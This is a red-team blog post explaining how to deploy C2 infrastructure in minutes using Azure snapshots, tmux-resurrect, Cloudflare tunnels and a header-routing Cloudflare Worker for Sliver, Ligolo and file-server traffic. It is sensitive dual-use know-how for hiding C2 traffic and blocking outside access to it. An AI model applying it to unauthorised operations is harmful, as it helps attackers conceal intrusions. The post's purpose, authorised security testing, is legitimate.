> **tl;dr** How to bring up an entire C2 infrastructure with all your tooling and their corresponding redirectors within 5 minutes with the help of Azure Snapshots, Cloudflare and Tmux Resurrect.

Every so often I seem to stumble across various ideas, that when combined, massively improve my overall productivity at work. Most of these ideas on their own are nothing new, but when used in tandem can really accelerate your productivity, which is what I wanted to illustrate in today's post. A great example of this is combining Cloudflare workers, apps and tunnels along with Azure VM snapshots and Tmux Resurrect to allow you to bring up an entire C2 infrastructure in 5 mins from a single VM.

Here at JUMPSEC we have now moved from a system where we would need to allocate project time for infrastructure setup, to it only being something we need to allocate 5 minutes to on day 1 of the test in some cases. Just to help you understand the efficiencies that can be gained with this setup, and how it is worth your investment to continue reading, here is our typical “Day 1” infrastructure setup workflow utilising both Azure and Cloudflare:

- Create a Disk in Azure from our saved ‘Template’ snapshot (2 mins)
- Create a VM from that Disk (2 mins)
- Log into the VM and using the [tmux-resurrect](https://github.com/tmux-plugins/tmux-resurrect) plugin all of our servers can be brought up at a keystroke (1 min)

That’s it, 5 mins of your time. Our previously saved snapshot is a VM saved in time with no client data but containing all of our tools including multiple C2 servers, Ligolo server, http server, Tmux Resurrect, prebuilt payloads for that redirector url and, of course, the Cloudflare connectivity we will focus on in this blog.

In regards to Tmux Resurrect, think of it as a tool where if you have 6 command prompt panes open in a single tmux session, each with their own C2 server or Cloudflare connectivity command running, that it allows you to save that view. The next time you start tmux and issue the ‘Ctrl-r’ command it ‘resurrects’ that view so it will kick off all the commands that were running previously when you saved them, therefore starting all of your servers instantly. This can be a great time saver.

Creating snapshots, disks and VM’s from those disks is also super easy following the guidance [here](https://dev.to/icebeam7/cloning-azure-vms-1889). After you are happy that the template VM has all of your servers operating correctly, with Tmux Resurrect configured to start them, you can just snapshot it. Obviously you can then have multiple snapshot templates connecting to different Cloudflare redirectors to scale this up amongst your team so testers aren’t all using the same Cloudflare Worker.

From here on in we will focus on the Cloudflare configuration side of things as that is the trickier aspect and the main point of this post. Given this process is meant to simplify life, this post will be more screenshot heavy than textual but I think that’s what people prefer (or at least I hope) in regards to this type of post. What we are fundamentally trying to achieve can be seen in this diagram below, where we can point our tooling whether it be Ligolo, C2 agent or file requests at a single redirector hostname where a Cloudflare Worker will consume the request and redirect it to the desired location on our Cloud VM.

Anyway, let’s make a start.

To begin with, it is worth noting two points. Firstly, the naming conventions used for headers, domains, tunnel names, etc. are all for illustrative purposes so we have made them as obvious as possible, but do adjust them to suit your own needs.

Secondly I am taking it for granted that creating a VM in Azure or AWS and being able to SSH into it as well as buying a domain from Cloudflare or transferring one to Cloudflare is something that our readers can manage. Therefore, I will focus on explaining the remainder of the infrastructure in the diagram.

Except for buying a domain name, the cost of the Cloudflare setup is entirely cost free which is an amazing facility to have although you will need to register a credit card on your account. It’s also worth noting that a lot of this setup is one-time only, so if it looks like a scary amount of config, rest reassured at this point that the majority of it is a one-off.

First things first, you will need to set up a Cloudflare account, so go on over to Cloudflare.com and register an account. If you bought your domain from them or have recently transferred it to them, you will see your domain listed under ‘Websites’ as shown. Please note the highlighted ‘Zero Trust’ area too because that is where we will head to next.



On clicking your domain, you will have visibility of an important piece of information which is your ‘Account ID’. Please note this down as this will be required further on.



Now follow the previously highlighted link to the ‘Zero Trust’ area of Cloudflare which is where we will add our various tunnels from the outside world into our cloud virtual machine.

On entering the ‘Zero Trust’ section choose ‘Networks’ followed by ‘Tunnels’ and click ‘Create a tunnel’ which will create an area where you can create multiple tunnels within it.



At this point you will be asked to create your first tunnel or “Public hostname”. Pictured below are some of the ones we use (which are redacted) but just to give you an idea the first ‘Public hostname’ could be [https://sliver.yourDomain.com](https://sliver.yourdomain.com/) and any Sliver C2 data hitting that endpoint would then be routed through that particular tunnel into the VM where ‘cloudflared’ is running and it will be redirected to the Sliver listener at https://127.0.0.1:443.



Just one thing to point out, when you see the number 1 under ‘Origin configurations’ it is just highlighting that some additional config is in place and for the https tunnels that was simply just toggling ‘No TLS Verify’ to ‘Enabled’ to ensure that the data bypasses any TLS checks:

Now in the ‘Overview’ area of your Cloudflare tunnels you will be provided with some code that needs to be run on your Cloud VM which will start the tunnels calling out to Cloudflare to allow traffic to traverse them. This includes your very long private token. So, click your OS of choice and using their instructions install the Cloudflare tunnel software which they call ‘cloudflared’ on your VM.

To then start the tunnels on your VM you run this command:

`cloudflared tunnel run --token YourTokenHere`

Right, just taking us back to our overview diagram to view our progress, we have now completed the area in red, so we are halfway there. Good job.



As it stands you can now send data into your tunnels quite easily, the problem is, that so can anyone else. As covert red teams that is not a good look, so we need to add some protection to the tunnels. This is where the workhorse of the setup comes into play via the Cloudflare worker.

The Cloudflare worker comes with its own Cloudflare URL, normally something like customworkername.customsubdomain.workers.dev but it can also be a domain of your choosing. We have kept it as the well-known Cloudflare workers.dev prefix for demonstration purposes. The worker is essentially serverless code, which is constantly receiving requests and, in our case, redirecting those requests to where we want them to go.

To create our worker some tools are required, and some code needs to be deployed but this doesn’t necessarily need to be carried out on your cloud VM and can be carried out from your local Linux system that has access to your Cloudflare account.

Firstly, if you don’t have it installed, install the npm package like so which provides access to the npx command:

> `sudo apt install npm`

Following this, checkout out the demo Cloudflare worker we have provided on our Github repo that will contain a ‘src’ folder which has an index.js file (which is the code the Worker uses to run) and it will also contain a wrangler.toml file which contains the variables the Worker references:

> [https://github.com/JumpsecLabs/CloudflareRedirector](https://github.com/JumpsecLabs/CloudflareRedirector)

Now cd into the ‘CloudflareRedirector folder and run this command to install the wrangler files required to deploy the worker to Cloudflare.

`npm install wrangler --save-dev`

A folder named node\_modules and a file named package.json will also be created within our folder but we don’t need to be concerned with those.

Next, we need to authenticate to the Cloudflare account we set up previously so issue this command and log into Cloudflare:

`npx wrangler login`

Finally open the wrangler.toml file in your text editor of choice and edit the fields outlined in red below including your accountid that we found at the beginning of this post. The URLs should match the tunnel URLs you have previously set up. The worker endpoint, customip, service variables, etc. can be readjusted after it has been deployed so you can leave them as-is.

> The wrangler.toml file that provides variables to be used by the Cloudflare worker can be seen here. As mentioned the verbose subdomains and headers are used for demo purposes so adjust accordingly.



With all of this data populated we can now deploy the Worker to Cloudflare with:

`npx wrangler deploy`

Now when we go back to Cloudflare and go to the 'Workers & Pages' section we should see our new Worker named ‘redirector’ as shown:

When you go to the ‘Settings’ tab of the worker and view the variables you can see whatever data you have just deployed across to Cloudflare. You can edit these in the gui as shown, although another deployment will overwrite these, so if many deployments are expected you are better off making the changes in the wrangler.toml file and redeploying.

You can also click ‘Edit Code’ which will display the code used by the worker which is essentially the index.js file from the src folder we checked out from the repo. Below is just a snippet of the beginning of that file:



At this point it’s probably worth taking some time to explain how the worker code that we deployed operates. Essentially, we specify some constants at the beginning which we will use to look for header data within the incoming http requests. We also specify our custom constants to store the values we manually entered via our wrangler.toml such as SLIVER\_HEADER which had the value MY-SLIVER.

Now when a request comes in, the worker checks via multiple ‘if’ statements if the incoming header value is equal to for example the ‘SLIVER\_HEADER_’_ text of ‘MY-SLIVER_’._ If it matches, we create a new request and send it to the sliverUrl which is linked to our custom SLIVERENDPOINT which should be linked to the URL of the Sliver tunnel.

The code continues on like this with other ‘if’ checks, such as this one below redirecting our requests to our file server. In the scenario that the http request doesn’t have a custom header that we are expecting the code then checks if the IP is an IP we may want to allow into our internal file server. We then redirect that to a tunnel which points to our internal http server. This IP can be set under CUSTOM\_IP in the wrangler.toml or via the Cloudflare website.



So, in our case we may have a custom header for multiple C2’s running on our VM or a Ligolo server. Keep in mind though, to use Ligolo over Cloudflare websockets you will need this fork of ligolo-ng:

> [https://github.com/virusvfv/ligolo-ng/tree/Websockets](https://github.com/virusvfv/ligolo-ng/tree/Websockets)

Anyhow, you may also have noticed that two new header values (‘CF-Access-Client-Id’ and ‘CF-Access-Client-Secret’) are also added to the new request via the code but I will come to that in a moment.

Now that your worker is deployed you can view its URL in the ‘Triggers’ area of the Worker’s ‘Settings’ area as shown below. Here you can set a custom domain or take the one provided by Cloudflare.

When you have decided which URL to use please go back and edit the variable ‘WORKER\_ENDPOINT’ in your wrangler.toml and redeploy it or via the Cloudflare gui which will automatically redeploy the worker.

It’s also worth pointing out the logging features of the redirector should there be any issues with the requests coming in. You can click ‘Begin log stream’ under ‘Logs’ which will allow you to see all the requests entering the worker. There is also logging on the tunnels should you want to see the requests entering those too. We feel that some of the drawbacks in regards to lack of visibility for debugging that previously existed in regards Cloudflare or other domain fronted setups have now been mitigated with all of these excellent logging capabilities.



Just taking another step back, this is how far we have come now with only the final piece of the jigsaw in red left to complete.



We now have a Worker that can receive custom http requests and we have tunnels that will take the requests and tunnel them into our Cloud VM infrastructure. The last issue we have is that although we now have a Worker carrying data to our tunnels, the tunnel URLs are still accessible to the outside world so our Worker can be bypassed.

To rectify this, we need to add a ‘Zero Trust’ check to the tunnel ‘entrances’, and we do this by placing Cloudflare applications as the entry point to them. These can also have preconditions to entry attached to them called ‘Policies’. This is easier to explain with some further screenshots.

We must first create a ‘Service token’ which is used by automated systems like Workers to authenticate against our zero trust policies. In the Cloudflare zero trust area we go to ‘Access’ then ‘Service Auth’ and click ‘Create Service Token’ and provide a name and duration.



This will generate us a token that can be used by your Worker to access the ‘Zero Trust’ area where our tunnels are located. The token will only be visible at this point so please note down both the ‘CF-Access-Client-Id’ and ‘CF-Access-Client-Secret’ fields and populate them in your wrangler.toml file and redeploy that or manually add them into the variables area of your Worker.



Now our Worker has the ability to use a token to enter Cloudflare’s zero trust tunnels, but we still need to add the checks for this token ID on the tunnels themselves.

To do this we create 3 apps pointing to our 3 tunnel URLs as follows. Click ‘Add an application’ and choose ‘Self-hosted’:



Choose a name and the tunnel the app is meant to be linked to. So, if your tunnel is sliver.mydomain.com add those details in the redacted areas below.

Next up we choose what Policies will be used to allow or deny data into the tunnel via the application. Here we choose our Service-Auth access we set up previously so only requests that have those two header values of ‘CF-Access-Client-Id’ and ‘CF-Access-Client-Secret’ will be allowed access i.e. only data via our clever Worker which now adds those two headers automatically can enter. An easy mistake to make here is to not choose ‘Service Auth’ under the ‘Action’ dropdown so make sure that is chosen.



The Policy’s remaining settings can remain as they are when you are creating Policies for Ligolo or for a C2 so create two apps exactly as per above if only using a C2 and Ligolo. For access to files, it is useful to add a second bypass policy and I will explain why now.

If you create another app called ‘Files’ to allow access into your remote file server, we can restrict requests entering from only a specific IP, but we can also allow privileged users directly into the files tunnel who have a specific email address outside of that IP. This is for the occasions when a team may want to access their remote VM files but don’t want to keep adding multiple custom IPs to the Worker or don’t need command line access via wget, certutil etc.

